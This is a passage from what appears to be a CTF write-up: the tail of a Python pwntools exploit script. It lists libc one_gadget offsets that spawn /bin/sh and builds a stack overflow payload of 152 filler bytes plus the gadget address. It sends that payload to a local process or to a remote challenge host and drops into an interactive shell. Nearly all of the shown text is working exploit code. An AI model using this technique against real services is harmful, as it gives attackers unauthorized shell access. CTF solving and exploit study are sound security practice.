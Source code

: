     # constraints:
    #   rax == NULL
    #
    # 0x4526a execve("/bin/sh", rsp+0x30, environ)
    # constraints:
    #   [rsp+0x30] == NULL
    #
    # 0xf02a4 execve("/bin/sh", rsp+0x50, environ)
    # constraints:
    #   [rsp+0x50] == NULL
    #
    # 0xf1147 execve("/bin/sh", rsp+0x70, environ)
    # constraints:
    #   [rsp+0x70] == NULL


    one_gadget  = libc_base + 0x45216

    log.info("one_gadget    : " + hex(one_gadget) )

    p = "A"  * 152
    p += p64(one_gadget)

    r.sendline(p)
    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("jh2i.com", 50005)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}
